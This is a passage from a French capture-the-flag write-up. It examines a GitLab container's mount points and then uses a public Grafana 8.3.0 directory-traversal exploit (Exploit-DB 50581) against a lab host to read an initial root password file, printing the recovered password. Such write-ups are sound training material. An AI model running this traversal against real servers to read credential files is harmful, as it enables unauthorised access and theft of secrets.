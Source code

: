 On voit que le dossier `srv` dans le dossier de l'utilisateur `cachalot` est monté. Malheureusement, nous n'aurons pas accès à sa clé SSH ici.

En revanche les points de montage du container Gitlab font référence à des fichiers sous `srv` :

```json
 "Mounts": [
  {
   "Name": "",
   "Source": "/var/run/docker.sock",
   "Destination": "/var/run/docker.sock",
   "Driver": "",
   "Mode": "rw",
   "RW": true
  },
  {
   "Name": "",
   "Source": "/home/cachalot/srv/gitlab/config",
   "Destination": "/etc/gitlab",
   "Driver": "",
   "Mode": "rw",
   "RW": true
  },
  {
   "Name": "",
   "Source": "/home/cachalot",
   "Destination": "/root",
   "Driver": "",
   "Mode": "ro",
   "RW": false
  },
  {
   "Name": "",
   "Source": "/home/cachalot/srv/initial_root_password",
   "Destination": "/root/srv/initial_root_password",
   "Driver": "",
   "Mode": "rw",
   "RW": true
  },
```

Par conséquent, je dois pouvoir lire le fichier `initial_root_password` depuis le montage `srv` de Grafana.

J'ai pour cela utilisé cet exploit de directory traversal : [Grafana 8.3.0 - Directory Traversal and Arbitrary File Read](https://www.exploit-db.com/exploits/50581)

```console
$ python3 50581.py -H http://192.168.56.141:3000/
Read file > /srv/initial_root_password
M4st3rR00tS3cr3t0ne^1337^
```

### Cashalot
